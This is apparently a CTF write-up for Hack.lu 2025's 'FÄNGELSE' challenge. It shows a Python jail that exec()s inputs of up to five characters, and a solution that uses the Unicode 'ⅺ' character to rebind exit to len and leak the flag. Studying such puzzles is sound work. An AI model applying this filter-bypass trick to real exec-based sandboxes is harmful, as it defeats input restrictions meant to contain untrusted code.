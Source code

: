 # Hack.lu CTF 2025 FÄNGELSE

```python
flagbuf = open("flag.txt", "r").read()

while True:
    try:
        print(f"Side-channel: {len(flagbuf) ^ 0x1337}")
    # Just in case..
    except Exception as e:
        # print(f"Error: {e}") # don't want to leak anything
        exit(1337)
    code = input("Code: ")
    if len(code) > 5:
        print("nah")
        continue
    exec(code)
```

Requirements:

1. No more than 5 characters: use `exit(flagbuf)` to leak flag, use `a=exit;len=a` to override function in two steps, use `ⅺ` for `xi` to break the length limitation

Solution by @moritz on Discord:

```shell
$ xn--fngelse-5wa.solven.jetzt 1024
Side-channel: 4890
Code: a=eⅺt
Side-channel: 4890
Code: len=a
flag{1_2_3_4_5_6_7_8_9_10_exploit!_12_13_...}
```

The length of `a=exit` is 6, but using `ⅺ` reduces it to 5. Then, `exit(flagbuf)` is called to print the flag.
